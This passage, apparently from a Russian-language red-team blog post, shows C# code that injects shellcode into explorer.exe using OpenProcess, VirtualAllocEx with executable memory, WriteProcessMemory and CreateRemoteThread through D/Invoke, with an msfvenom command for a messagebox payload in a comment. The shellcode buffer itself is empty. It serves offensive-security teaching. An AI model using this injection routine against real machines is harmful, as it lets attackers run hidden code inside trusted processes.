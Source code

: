 ```csharp
            // msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f csharp
            byte[] buf = new byte[] { };

            // получаем PID процесса explorer.exe
            int processId = Process.GetProcessesByName("explorer")[0].Id;

            // получаем хендл процесса по его PID
            IntPtr hProcess = OpenProcess(DInvoke.Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, false, processId);

            // выделяем область памяти buf.Length байт
            IntPtr allocAddr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, DInvoke.Data.Win32.Kernel32.MEM_COMMIT | DInvoke.Data.Win32.Kernel32.MEM_RESERVE, DInvoke.Data.Win32.WinNT.PAGE_EXECUTE_READWRITE);

            // записываем шеллкод в выделенную область
            _ = WriteProcessMemory(hProcess, allocAddr, buf, buf.Length, out _);

            // запускаем поток
            _ = CreateRemoteThread(hProcess, IntPtr.Zero, 0, allocAddr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

[![di-dynamicapiinvoke.png](/assets/images/keethief-syscalls/di-dynamicapiinvoke.png)](/assets/images/keethief-syscalls/di-dynamicapiinvoke.png)
{:.center-image}


[//]: # (2022-03-29)